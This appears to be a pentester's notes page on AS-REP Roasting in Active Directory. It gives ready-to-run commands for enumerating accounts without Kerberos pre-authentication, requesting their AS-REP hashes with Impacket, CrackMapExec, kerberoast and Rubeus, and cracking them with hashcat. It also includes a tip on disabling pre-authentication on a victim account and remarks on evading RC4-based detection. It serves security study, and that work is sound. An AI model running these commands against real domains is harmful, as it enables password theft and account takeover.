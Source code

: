 alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](1. ) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		- From Windows
			- With PowerView
			  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
			  ```powershell
			  Get-DomainUser -PreauthNotRequired
			  ```
			  ```powershell
			  # Users with Pre-Authentication disabled AND without expired passwords
			  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
			  ```
			- With LDAP
			  ```powershell
			  ldapsearch -LLL -x -H ldap://dc01.hpbank.local -D "da@hpbank.local" -w 'P@ssw0rd' -b dc=hpbank,dc=local "(&(&(servicePrincipalName=*)(UserAccountControl:1.2.840.113556.1.4.803:=512))(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName userPrincipalName memberOf
			  ```
			- With pure Powershell
			  ```powershell
			  $root = [ADSI]"LDAP://dc=hpbank,dc=local"
			  $search = new-Object System.DirectoryServices.DirectorySearcher($root)
			  $search.Filter ="(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
			  $search.FindAll()
			  ```
			- With Active Directory module
			  ```powershell
			  Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
			  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have **GenericWrite** or **GenericAll** rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux
		- With [[Impacket GetNPUsers]]
			- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
			  ```bash
			  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
			  ```
				- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
				- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
				- `-outputfile hashes.asreproast` - file to save captured hashes.
					- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
			- With [[CrackMapExec]]
			  id:: 65673473-d9f8-42e7-a1ba-c234679b312d
				- ```bash
				  crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast hashes.asreproast --KdcHost $KeyDistributionCenter
				  ```
			- With [Kerberoast]([[Kerberoast tool]])
			  id:: 6567356f-171b-4626-a6ed-f9551a966b85
				- This tool asks for aes 128/256 encrypted tickets. Making the crack process way harder, but also decreasing the detection risk.
				- ```bash
				  python3 -m kerberoast asreproast -r hpbank.local -u da 192.168.0.122 -e 18
				  ```
				- To crack it with [[JTR]] it's necessary to change the format for the output to `$krb5asrep$18$<SALT>$<FIRST_BYTES>$<LAST_12_BYTES>`
	- From Windows
		- With [[Rubeus]]
			- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
			  ```powershell
			  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast [/user:username]
			  ```
				- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
				- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
				- `/outfile:` - file to save captured hashes.
	- #+BEGIN_CAUTION
	  All tools, but [[Kerberoast tool]] ask for RC4 encrypted tickets that can be (and probably will be) detected by SOC ([Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_susp_rc4_kerberos.yml)).
	  #+END_CAUTION
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali